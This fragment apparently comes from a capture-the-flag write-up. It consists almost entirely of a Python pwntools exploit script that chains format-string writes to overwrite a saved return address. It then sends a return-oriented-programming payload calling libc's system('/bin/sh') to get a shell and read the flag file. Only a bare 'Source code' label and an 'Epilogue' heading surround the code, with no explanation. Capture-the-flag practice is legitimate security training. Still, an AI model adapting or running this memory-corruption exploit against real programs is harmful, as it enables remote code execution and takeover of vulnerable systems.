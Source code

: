 ```python

buffer = stack - 0x58
b1 = buffer & 0xffff
b2 = (buffer >> 16) & 0xffff
b3 = (buffer >> 32) & 0xffff
log.info(f'Buffer: {hex(buffer)}')



pl = b'%3c%21$hn\0\0'

r.sendline(pl)
r.clean()

pl = f'%{(buffer + 2) & 0xffff}c%11$hn'.encode()

sleep(2)
r.sendline(pl)


pl = f'%{(rip >> 16) & 0xffffffff}c%31$n'.encode()
sleep(2)

r.sendline(pl)


pl = f'%{(buffer) & 0xffff}c%11$hn'.encode()

r.sendline(pl)


pl = f'%{rip & 0xffff}c%31$hn'.encode()
sleep(2)
r.sendline(pl)


rdi = l.address + 0x00000000000cee4d
ret = rdi + 1
system = l.sym.system
bin_sh = next(l.search(b'/bin/sh\0'))

sleep(1)
r.send(p64(rdi) + p64(bin_sh) + p64(ret) + p64(system))
#sleep(0.5)
r.sendline(b'cat fl*')

r.interactive()
```

# Epilogue
